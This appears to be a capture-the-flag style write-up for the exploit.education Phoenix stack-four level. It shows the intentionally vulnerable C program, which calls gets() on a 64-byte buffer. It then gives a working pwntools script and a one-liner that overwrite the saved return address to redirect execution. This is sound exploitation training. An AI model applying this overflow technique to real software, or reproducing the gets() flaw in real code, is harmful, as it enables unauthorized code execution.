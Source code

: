 Source

```c
/*
 * phoenix/stack-four, by https://exploit.education
 *
 * The aim is to execute the function complete_level by modifying the
 * saved return address, and pointing it to the complete_level() function.
 *
 * Why were the apple and orange all alone? Because the bananna split.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

# Solution

In this challenge, the main function prints the banner and calls the function `start_level()`
We want to overwrite the return address that gets placed onto the stack, with the address of `complete_level`

The buffer is still 64 bytes long, so we can pad that buffer and append the return address of complete_level()

Much like before, find the address of complete_level so we know where we want it to return to.

![[../res/Pasted image 20230323210945.png]]

In this case, on this VM, its `0x40061d`

![[../res/Pasted image 20230323212156.png]]

I opened it in GDB to check if the buffer is properly sized for 64 bytes.. but its not.
In this case the `sub rsp, 0x50` is actually 80 bytes of space being allocated on the stack for variables. This is  to account for the 64 byte `buffer` and the 8 bytes (64-bit) for the `void * ret` The astute probably notice that this  leaves us with 72 bytes of space for variables, but why is it leaving room for another 8 bytes.. perhaps stack alignment or something like that.

On further inspection, the HINTS section of the instructions indicate that this is indeed the case :
	-   The saved instruction pointer is not necessarily directly after the end of variable allocations – things like compiler padding can increase the size. [Did you know that some architectures may not save the return address on the stack in all cases?](https://en.wikipedia.org/wiki/Link_register)


But if we crash the program within gdb and have a read we should see the exact length we need to overwrite rip:

![[../res/Pasted image 20230323212858.png]]

Now we just plug the proper values into our python script from before:


```python
from pwn import *

# fill up the buffer
out = "A" * 80

# overwrite RBP
out += "B" * 8

#use the p64 function to automatically account for \x and endian-ness, and overwrite the RIP
out += p64(0x40061d)
# print it out
print(out)
```

And in one liner form:

```
python -c 'from pwn import *; out = "A"*80; out += "B"*8; out += p64(0x40061d); print(out)'
```


![[../res/Pasted image 20230323213243.png]]

# Other options / patterns

You could use programs like `pattern_create.rb` and `pattern_offset.rb` to figure these values / padding out for you. But its great to open it a debugger and figure it out for yourself.
GEF itself provides fuzzers/pattern creators to fill this purpose:

Pattern Create
![[../res/Pasted image 20230323213657.png]]

Pattern Offset
![[../res/Pasted image 20230323213817.png]]


